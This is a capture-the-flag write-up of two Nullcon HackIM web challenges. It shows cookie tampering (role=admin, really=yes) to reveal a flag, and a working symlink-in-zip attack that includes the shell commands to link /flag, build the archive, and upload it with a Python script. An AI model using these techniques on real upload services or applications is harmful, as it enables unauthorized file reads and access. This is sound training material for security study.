 ```yaml
---
title: Nullcon HackIM CTF
description: CTF writeups
author: 0xRamInf0sec
date: 2023-08-19 11:33:00 +0800
categories: [CTF,WEB]
tags: [ctf,web]
---
```


## Challenge - Reguest

Description : HTTP requests and libraries are hard. Sometimes they do not behave as expected, which might lead to vulnerabilities.

## **Solution :**

On visiting the page , it shows with some instruction and cookies.

![ctf01.png](/assets/img/ctf01.png)

```php
role = request.cookies.get('role','guest')
	really = request.cookies.get('really', 'no')
	if role == 'admin':
		if really == 'yes':
			resp = 'Admin: ' + os.environ['FLAG']
		else:
			resp = 'Guest: Nope'
	else:
		resp = 'Guest: Nope'
	return Response(resp, mimetype='text/plain')
```

Look at the code , the role variable has the ‘role’ cookie and really variable has the ‘really’ cookie and it checks whether the role cookie is equals to admin and really cookie equals to yes . 

If both role and really equals to admin and yes respectively , we will get flag !!.

Now , we have to set the cookies role = admin and really = yes …

Flag : `ENO{R3Qu3sts_4r3_s0m3T1m3s_we1rd_dont_get_confused}`

## Challenge : zpr

Description : My colleague built a service which shows the contents of a zip file. He says there's nothing to worry about.…

## Solution:

The webpage shows with some instruction as make a zipfile as post request !!.

![ctf02.png](/assets/img/ctf02.png)

So, we have to send zip file to the server.They gave the actual backend code for the challege.

```python
def upload():
	output = io.StringIO()
	if 'file' not in request.files:
		output.write("No file provided!\n")
		return Response(output.getvalue(), mimetype='text/plain')

	try:
		file = request.files['file']

		filename = hashlib.md5(secrets.token_hex(8).encode()).hexdigest()
		dirname = hashlib.md5(filename.encode()).hexdigest()

		dpath = os.path.join("/tmp/data", dirname)
		fpath = os.path.join(dpath, filename + ".zip")

		os.mkdir(dpath)
		file.save(fpath)

		with zipfile.ZipFile(fpath) as zipf:
			files = zipf.infolist()
			if len(files) > 5:
				raise Exception("Too many files!")

			total_size = 0
			for the_file in files:
				if the_file.file_size > 50:
					raise Exception("File too big.")

				total_size += the_file.file_size

			if total_size > 250:
				raise Exception("Files too big in total")

		check_output(['unzip', '-q', fpath, '-d', dpath])

		g = glob.glob(dpath + "/*")
		for f in g:
			output.write("Found a file: " + f + "\n")

		output.write("Find your files at http://...:8088/" + dirname + "/\n")

	except Exception as e:
		output.write("Error :-/\n")

	return Response(output.getvalue(), mimetype='text/plain')
```

On looking up the code, we can see that the website extracts our archive .It should have checked for any symlinks associated with the zip file but it doesn’t.

We have to create the zip file with symlink!!

```bash
ln -s /flag flag.txt
zip --symlinks flag.zip flag.txt
```

So, now we have to upload this zip file to the server using python.

```python
import requests

URL = "http://52.59.124.14:10015/"
files = {'file': open('flag.zip', 'rb')}
getdata = requests.post(URL, files=files)
print(getdata.content)
```

![ctf03.png](/assets/img/ctf03.png)

We have a path to the uploaded zip file , on visiting to that path we can able to see the zip file with flag.txt@ 

Got the flag using flag.txt@ file!!.

Flag : `ENO{Z1pF1L3s_C4N_B3_Dangerous_so_b3_c4r3ful!}`
